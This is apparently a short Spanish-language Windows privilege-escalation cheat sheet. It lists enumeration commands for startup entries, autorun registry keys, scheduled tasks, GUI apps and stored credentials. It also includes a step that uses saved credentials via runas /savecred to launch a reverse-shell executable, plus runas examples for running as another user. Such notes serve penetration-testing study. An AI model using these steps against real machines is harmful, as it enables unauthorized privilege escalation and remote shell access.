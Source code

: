 ----

## Aplicaciones de inicio

```
wmic startup get caption,command 2>nul & ^
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
```

```
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
Get-ItemProperty -Path 'Registry::HKLM\Software\Microsoft\Windows\CurrentVersion\Run'
```

----

## Tareas programadas

```
accesschk.exe /accepteula -quvw user <file>
```

----

## Aplicaciones de GUI inseguras

```
tasklist /V | findstr <program.exe>
```

----

## Contraseñas guardadas

```
cmdkey /list
```

```
runas /savecred /user:<user> C:\PrivEsc\reverse.exe
```

Ejecutar un proceso como otro usuario

```
 runas.exe /env /noprofile /user:test123 "notepad.exe"
 runas.exe /env /noprofile /user:test123 "cmd.exe"
```

----

## Registro ejecuciones automaticas

```
accesschk.exe /accepteula -wvu
```
